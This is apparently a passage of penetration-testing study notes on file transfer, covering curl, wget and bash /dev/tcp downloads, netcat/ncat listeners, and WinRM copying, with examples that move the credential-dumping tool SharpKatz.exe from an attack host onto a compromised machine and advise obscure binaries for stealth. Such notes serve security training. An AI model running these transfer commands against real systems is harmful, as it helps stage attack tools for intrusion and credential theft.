 ### Linux GTFOBins

- **curl**:
    - **Download**: `curl -o file https://<URL>`.
    - **Pitfalls**: Blocked by egress filtering.
    - **Tip**: Common and lightweight.
- **wget**:
    - **Download**: `wget -O file https://<URL>`.
    - **Pitfalls**: Similar to curl; may be absent on minimal systems.
    - **Tip**: Use `q` for quiet operation.
- **bash**:
    - **Download**: `cat < /dev/tcp/<IP>/<port> > file`.
    - Requires Netcat listener: `nc -l -p <port> < file`.
    - **Pitfalls**: Needs Bash with net-redirections enabled.
    - **Tip**: No external tools required.

### Tips

- **Obscurity**: Explore lesser-known binaries (e.g., `ConfigSecurityPolicy.exe`, `ab`) for stealth.
- **Practice**: Experiment with LOLBAS/GTFOBins to build familiarity.

---

### Miscellaneous File Transfer Methods

### Netcat/Ncat

- **Overview**: Netcat (nc) and Ncat (modern version) are versatile for TCP/UDP file transfers.
- **Availability**: Common on Linux; Ncat adds SSL, IPv6 support.
- **Examples**:
    - **Compromised Machine Listens**:
        - Netcat: `nc -l -p 8000 > SharpKatz.exe`.
        - Ncat: `ncat -l -p 8000 --recv-only > SharpKatz.exe`.
        - Attack Host Sends: `ncat -q 0 <IP> 8000 < SharpKatz.exe` or `ncat --send-only <IP> 8000 < SharpKatz.exe`.
    - **Attack Host Listens**:
        - Netcat: `nc -l -p 443 -q 0 < SharpKatz.exe`.
        - Ncat: `ncat -l -p 443 --send-only < SharpKatz.exe`.
        - Compromised Machine Connects: `nc <IP> 443 > SharpKatz.exe` or `ncat <IP> 443 --recv-only > SharpKatz.exe`.
    - **Bash /dev/tcp**:
        - Attack Host: `nc -l -p 443 -q 0 < SharpKatz.exe`.
        - Compromised Machine: `cat < /dev/tcp/<IP>/443 > SharpKatz.exe`.
- **Pitfalls**: Firewalls may block ports; Ncat requires installation if missing.
- **Tip**: Use `-send-only`/`-recv-only` to ensure clean termination.

### PowerShell Remoting (WinRM)

- **Overview**: Uses WinRM (TCP/5985 HTTP, TCP/5986 HTTPS) for remote file transfers.
- **Requirements**: Administrative access or Remote Management Users group membership.
- **Steps**:
    - Verify connectivity: `Test-NetConnection -ComputerName <target> -Port 5985`.
    - Create session: `$Session = New-PSSession -ComputerName <target>`.
    - Download: `Copy-Item -Path "C:\\local\\file.txt" -ToSession $Session -Destination "C:\\remote\\path"`.
    - Upload: `Copy-Item -Path "C:\\remote\\file.txt" -FromSession $Session -Destination "C:\\local\\path"`.
- **Pitfalls**: Requires WinRM enabled; blocked if HTTP/SMB is restricted.
- **Tip**: Ideal for internal Windows networks.
